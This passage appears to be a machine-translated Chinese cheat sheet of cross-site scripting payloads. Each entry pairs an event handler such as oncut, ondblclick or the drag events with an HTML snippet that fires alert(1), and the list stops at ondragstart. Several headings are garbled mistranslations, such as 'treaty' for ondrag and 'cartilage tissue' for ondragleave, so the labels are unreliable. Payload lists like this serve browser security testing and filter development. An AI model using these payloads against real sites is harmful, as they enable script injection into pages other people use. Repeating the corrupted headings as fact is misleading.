 #### **oncut**

要求你剪下一段文字

```
<xss oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
```

#### **波浪点击**

双击元素时触发

```
<xss ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</xss>
```

#### **条约**

拖动元素时触发

```
<xss draggable="true" ondrag="alert(1)" style=display:block>test</xss>
```

#### **不可抗力**

触发拖动在元素上完成

```
<xss draggable="true" ondragend="alert(1)" style=display:block>test</xss>
```

#### **反应物**

需要鼠标拖动

```
<xss draggable="true" ondragenter="alert(1)" style=display:block>test</xss>
```

#### **软骨组织**

需要鼠标拖动

```
<xss draggable="true" ondragleave="alert(1)" style=display:block>test</xss>
```

#### **ondragover**

在元素上拖动触发

```
<div draggable="true" contenteditable>drag me</div><xss ondragover=alert(1) contenteditable style=display:block>drop here</xss>
```

#### **ondragstart**

需要鼠标拖动

